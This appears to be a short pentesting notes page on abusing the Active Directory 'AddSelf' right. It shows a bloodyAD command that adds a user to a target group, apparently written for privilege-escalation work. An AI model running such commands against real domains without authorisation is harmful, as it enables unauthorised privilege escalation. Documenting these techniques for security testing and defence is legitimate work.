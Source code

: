 # 'AddSelf' to a group

When a user has `AddSelf` rights, it has the privilege to add itself to the group.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To add we can do this:

{% code title="BloodyAD" overflow="wrap" %}
```bash
# installation
sudo apt install bloodyad

bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add groupMember $TargetGroup $TargetUser
```
{% endcode %}
